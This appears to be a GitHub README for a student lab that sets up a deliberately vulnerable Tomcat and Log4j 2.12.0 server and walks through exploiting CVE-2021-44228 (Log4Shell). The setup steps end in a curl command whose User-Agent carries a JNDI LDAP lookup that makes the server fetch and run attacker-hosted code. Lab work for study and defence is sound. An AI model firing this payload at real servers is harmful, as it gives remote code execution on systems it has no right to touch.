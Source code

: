 # log4j-playground

This is standalone Log4j playground I developed as a semester project to exploit CVE-2021-44228. I found numerous setups, but they all were docker containers and I wanted to build something from scratch. So feel free to use it, modify it, or let me know if there's any issue. Have fun [safely]!

## Core Requirements:
1) Ubuntu Server (LTS)
2) Apache Tomcat 7.0.99
3) Log4j 2.12.0
4) JDK 7u80

We have a simple web application hosted on our Tomcat server solely for the functional purpose (there's no aesthetics :)) to emulate real-world webapp. And when someone enters some text, their input, as well as their user-agent gets logged by log4j for analysis (it's original purpose), and this is what we will exploit by requesting to [our] attacker-controlled LDAP server to provide remote codebase and make the server fetch it and execute it. On kali, spin a LDAP and an HTTP server to provide this codebase and BOOM! We can execute code remotely on the Ubuntu server!

All the files for the Ubuntu-server is in the `mywebapp` folder, and the files required to exploit is in the `ldap-server` folder.


## Vulnerable Ubuntu Server

1) To set-up the server, download Apache Tomcat and set it up in a system folder (ideally). I saved mine as `/opt/apache-tomcat`
2) Download and set-up [Java SE 7](https://www.oracle.com/ca-en/java/technologies/javase/javase7-archive-downloads.html) for the whole system.
3) Then go into the webapp folder and compile our simple web application using the following command. You can use the log4j modules I provided as-is, or go ahead and download from [official Apache archive](https://archive.apache.org/dist/logging/log4j/2.12.0/ "Index of /dist/logging/log4j/2.12.0") and follow further steps
```shell
javac -cp ".:WEB-INF/lib/*" -d WEB-INF/classes/ src/main/java/com/example/LogExampleServlet.java  -nowarn
```

4) Then copy and paste the whole folder in your `/PATH/TO/apache-tomcat/webapps/` folder
```shell
cp -r mywebapp /PATH/TO/apache-tomcat/webapps/
```

And this should load the webpage on `http://ubuntu-server:8080/mywebapp/index.jsp` if you check. And this is all there is to the vulnerable machine set-up!


Note: Idk but on initial testing, it didn't seem to work, and I had to create a .war file and place it in my `webapps` folder. So you can see if the above steps also work for you or not. But if not, try the below (I am not a JAVA programmer, so don't ask me).
```shell
jar cvf mywebapp.war *
cp mywebapp.war ../
```

## Attacker Machine

### Payload

For our actual malicious code, compile the `Evail.java` file using the same vulnerable jdk version present in ubuntu (ie 7u80) (makes sense right?) using the following code.

```Shell
/PATH/TO/jdk1.7.0_80/bin/javac Evail.java -Xlint:deprecation
```

### LDAP Server 
For the LDAP Server, we download the LDAP library from [official LDAP site](https://ldap.com/unboundid-ldap-sdk-for-java/ "UnboundID LDAP SDK for Java") and compile our Server file and execute it. Or you can use the one already included here.
```shell
javac -cp .:/opt/unboundid-ldapsdk-7.0.0/unboundid-ldapsdk.jar Server
java -cp .:/opt/unboundid-ldapsdk-7.0.0/unboundid-ldapsdk.jar Server
```
And on other terminal window, we spin our python server
```shell
python -m http.server 8000
```

### Exploit

Now the only step left to send our payload and let the whole process unfold.
```shell
curl ubuntu-server:8080/mywebapp/logExample -H 'User-Agent: ${jndi:ldap://192.168.56.101:9999/Evail}' 
```

With this a log entry at `/PATH/TO/apache-tomcat/logs/app.log` should be present and a connection back should confirm this. With this, congratulation! You exploited log4j!
